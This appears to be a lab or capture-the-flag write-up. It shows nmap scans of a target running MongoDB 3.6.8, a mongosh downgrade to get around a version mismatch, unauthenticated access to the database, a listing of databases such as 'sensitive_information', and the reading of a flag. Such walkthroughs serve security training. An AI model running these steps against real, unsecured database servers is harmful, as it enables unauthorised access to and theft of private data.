





2
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-09 03:36 UTC
Nmap scan report for 10.129.228.30
Host is up (0.050s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE
22/tcp open ssh
27017/tcp open mongod
Nmap done: 1 IP address (1 host up) scanned in 14.94 seconds
MongoDB 3.6.8
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,27017
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-09 03:37 UTC
Nmap scan report for 10.129.228.30
Host is up (0.048s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
| 256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_ 256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
27017/tcp open mongodb MongoDB 3.6.8 3.6.8
| mongodb-databases:
| totalSize = 245760.0
| ok = 1.0
| databases
| 0
| sizeOnDisk = 32768.0
| name = admin
<SNIP>
NoSQL
mongosh

┌──(kali㉿kali)-[~/Downloads]
└─$ sudo apt install ./mongodb-mongosh_2.7.0_amd64.deb
┌──(kali㉿kali)-[~/Desktop]
└─$ mongosh $IP
Current Mongosh Log ID: 69ae448adde9ee96838563b0
Connecting to: mongodb://10.129.228.30:27017/?directConnection=true&appName=mongosh+2.7.0
MongoServerSelectionError: Server at 10.129.228.30:27017 reports maximum wire version 6, but this version of the Node.js Driver requires at least 8 (MongoDB 4.2)
I encountered a MongoServerSelectionError because mongo 2.x requires at least MongoDB 4.2 (Wire Version 8). Since the target was running MongoDB 3.6 (Wire Version 6), I uninstalled version 2.7.0 and downgraded to mongosh 1.10.6 to restore connectivity.
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo apt remove mongodb-mongosh

┌──(kali㉿kali)-[~/Downloads]
└─$ sudo apt install ./mongodb-mongosh_1.10.6_amd64.deb

;)
test> show dbs
admin 32.00 KiB
config 72.00 KiB
local 72.00 KiB
sensitive_information 32.00 KiB
users 32.00 KiB
;)show collections
flag?db.flag.find()

1b6e...